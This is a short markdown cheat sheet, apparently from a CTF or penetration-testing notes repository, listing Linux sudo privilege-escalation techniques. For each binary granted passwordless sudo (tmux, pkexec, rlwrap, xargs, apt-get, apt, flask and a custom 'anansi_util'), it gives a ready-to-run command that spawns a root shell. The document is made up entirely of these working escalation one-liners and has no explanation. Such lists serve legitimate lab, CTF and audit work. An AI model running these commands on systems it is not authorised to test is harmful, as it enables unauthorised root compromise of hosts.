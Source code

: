 ## tmux
> (root) NOPASSWD: /usr/bin/tmux
```bash
sudo tmux
```

## pkexec
> (root) NOPASSWD: /usr/bin/pkexec
```bash
sudo pkexec /bin/bash
```

## rlwrap
> (root) NOPASSWD: /usr/bin/rlwrap
```bash
sudo rlwrap /bin/bash
```

## xargs
> (root) NOPASSWD: /usr/bin/xargs
```bash
sudo xargs -a /dev/null sh
```

## anansi_util
> (root) NOPASSWD: /home/anansi/bin/anansi_util
```bash
sudo /home/anansi/bin/anansi_util manual /bin/bash 
```

## apt-get
> (root) NOPASSWD: /usr/bin/apt-get
```bash
 sudo apt-get update -o APT::Update::Pre-Invoke::="/bin/bash -i" 
```

## apt
> (root) NOPASSWD: /usr/bin/apt
```bash
TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
sudo apt install -c $TF sl
```

## flask
> (root) NOPASSWD: /usr/bin/flask
```bash
cd /tmp
echo 'import pty; pty.spawn("/bin/bash")' > app.py
export FLASK_APP=flask
sudo /usr/bin/flask run
```
